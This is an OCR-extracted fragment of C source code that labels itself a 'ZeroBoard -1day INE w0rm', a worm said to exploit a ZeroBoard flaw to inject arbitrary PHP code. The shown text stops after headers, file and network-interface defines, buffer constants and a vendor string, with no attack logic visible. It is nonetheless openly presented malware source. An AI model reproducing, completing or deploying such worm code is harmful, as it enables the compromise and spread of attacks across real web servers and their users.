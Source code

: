 # CODE-HANDLER-BY-CRYPTIC

/* 
The worm exploits a vulnerability in ZeroBoard, allowing an attacker to inject arbitrary PHP code. 
/str0ke
*/

/*
** ZeroBoard -1day INE w0rm
*/

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netdb.h>
#include <netinet/in.h>
#include <signal.h>
#include <sys/ioctl.h>
#include <net/if.h>
#ifdef __sun__
#include <sys/sockio.h>
#endif /* __SunOS__ */

#define DEBUG_ING
#undef DEBUG_ING

#define TMP_FILE "./tmp.core"
#define CMD_FILE "./cmd.core"
#define PRC_FILE "./proc.core"
#define SCS (0)
#define MIN (1)

#ifdef __linux__
#define DEF_ETH "eth0"
#else
#ifdef __FreeBSD__
#define DEF_ETH "ed0"
#else
#ifdef __sun__
#define DEF_ETH "hme0"
#endif
#endif
#endif

#define MAX_BUF (0x0000ffff)
#define FIR_BUF (0x00000800)
#define SEC_BUF (0x00000400)
#define THR_BUF (0x00000200)
#define MIN_BUF (0x00000100)

#define VENDOR "nzeo.com"
